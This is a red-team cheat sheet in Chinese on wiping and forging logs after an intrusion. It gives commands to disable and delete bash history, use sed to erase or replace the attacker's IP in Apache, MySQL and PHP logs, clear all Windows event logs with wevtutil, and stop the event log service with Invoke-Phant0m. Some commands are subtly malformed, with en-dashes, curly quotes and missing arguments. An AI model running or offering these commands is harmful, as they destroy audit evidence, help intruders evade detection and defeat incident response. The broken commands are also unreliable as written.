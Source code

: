 ```yaml
---
title: 【红队】打扫战场--日志处理
---
```

# Linux日志处理

## Bash日志处理

**bash去掉history记录，让系统不记录history**

```bash
export HISTSIZE=0
export HISTFILE=/dev/null
```

history命令的清除，也是对~/.bash_history进行定向清除

```bash
history
rm -rf ~/.bash_history
```

## Web日志处理

如apache的access.log,error.log。

直接将日志清除过于明显,一般使用sed进行定向清除或伪造

```bash
sed -i -e ‘/192.169.1.3/d’
sed –i ‘s/192.168.1.3/192.168.1.4/g’ /var/log/apache/access.log
sed –i ‘s/192.168.1.3/192.168.1.4/g’ /var/log/apache/error_log
#其中192.168.1.3是我们的IP，192.168.1.4使我们伪造的IP
```

[处理apache日志的bash脚本](http://www.ruanyifeng.com/blog/2012/01/a_bash_script_of_apache_log_analysis.html)

## syslog处理

**/var/log/wtmp**

 **/var/run/utmp**

**/var/log/secure**



## MySQL日志文件

```bash
log-error=/var/log/mysql/mysql_error.log	#错误日志
log=/var/log/mysql/mysql.log			#最好注释掉，会产生大量的日志，包括每一个执行的sql及环境变量的改变等等
log-bin=/var/log/mysql/mysql_bin.log	# 用于备份恢复，或主从复制.这里不涉及。
log-slow-queries=/var/log/mysql/mysql_slow.log	#慢查询日志
log-error=/var/log/mysql/mysqld.log
pid-file=/var/run/mysqld/mysqld.pid

```

```bash
sed –i 's/192.168.1.3/192.168.1.4/g'/var/log/mysql/mysql_slow.log
```

## **php日志处理**

```bash
sed –i 's/192.168.1.3/192.168.1.4/g'/var/log/apache/php_error.log 
```

## **清除脚本:**

https://github.com/JonGates/jon 

# Windows日志处理

## 一、wevtutil+for循环清除所有日志

```cmd
for /F "tokens=*" %a in ('wevtutil.exe el') DO wevtutil.exe cl "%a"
```

## 二、 ps批量删日志 

如果弹回来的是一个ps的shell,直接用ps来批量删日志 

```cmd
PS C:\> wevtutil el | Foreach-Object {Write-Host "Clearing $_"; wevtutil cl "$_"}
```

## 三、运行ps脚本

```bash
powershell –exec bypass –Command "& {Import-Module 'C:\Invoke-Phant0m.ps1';Invoke-Phant0m}"
#win日志服务此时就会停止工作了
```
